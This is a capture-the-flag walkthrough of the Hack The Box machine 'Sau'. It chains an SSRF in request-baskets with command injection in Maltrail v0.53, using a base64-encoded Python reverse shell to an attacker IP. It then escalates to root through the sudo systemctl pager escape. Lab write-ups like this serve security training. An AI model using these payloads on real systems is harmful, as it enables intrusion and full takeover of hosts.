





# HTB Sau
## OS: Linux
## Difficulty: Easy

## Enumeration:

I'll start with port scan.

```bash
nmap -sC -sV 10.129.174.186
```

```
PORT      STATE    SERVICE VERSION                                                                                  
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                             
| ssh-hostkey:                                                                                                      
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)                                                      
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)                                                     
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)                                                   
80/tcp    filtered http                                                                                             
55555/tcp open     unknown                                                                                          
| fingerprint-strings:                                                                                              
|   FourOhFourRequest:                                                                                              
|     HTTP/1.0 400 Bad Request                                                                                      
|     Content-Type: text/plain; charset=utf-8                                                                       
|     X-Content-Type-Options: nosniff                                                                               
|     Date: Thu, 29 Aug 2024 08:25:14 GMT                                                                           
|     Content-Length: 75                                                                                            
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$                                       
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 29 Aug 2024 08:24:46 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 29 Aug 2024 08:24:46 GMT
|_    Content-Length: 0
```

Let's take a look at port 55555.



We can see that this web server uses request-baskets version 1.2.1.

I found a CVE for this version and also a POC.

https://github.com/entr0pie/CVE-2023-27163

This should allow us to see interact with the web server on port 80.

```bash
bash CVE-2023-27163.sh http://10.129.174.186:55555 http://localhost:80/

> Creating the "vzfieb" proxy basket...
> Basket created!
> Accessing http://10.129.174.186:55555/vzfieb now makes the server request to http://localhost:80/.
> Authorization: 4zdVwVnjsrKhp5A_oiONrzsH-u4SVYcXqcHrWaxP2smX
```

Now let's access the web server via http://10.129.174.186:55555/vzfieb .




We can se Maltrail v0.53 is used. Searching for CVEs I found this: https://github.com/spookier/Maltrail-v0.53-Exploit

## Foothold:

The vulnerability is command execution in the login function.

I'll try to replicate it.

Encoding the payload:
```bash
echo "python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.142\",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'" |base64 -w0

cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMTQyIiw2NjY2KSk7b3MuZHVwMihzLmZpbGVubygpLDApO29zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7cHR5LnNwYXduKCIvYmluL3NoIiknCg==
```

Starting a listening port:
```bash
rlwrap nc -lnvp 6666
```

Making the request.





It worked! Now we can get the user flag.

```bash
cd ~
cat user.txt
```

## We got the user flag!

## Privilege Escalation:

Let's see if we can run any command as the root user.
```bash 
sudo -l
```

```
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
I found out we can run commands using '!' before the command.
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/

We can run the the command as root and spawn an interactive shell afterwords.

```bash
sudo /usr/bin/systemctl status trail.service
!/bin/bash -i
```



We are now root. Let's get the root flag.

```bash
cat /root/root.txt
```

## We got the root flag!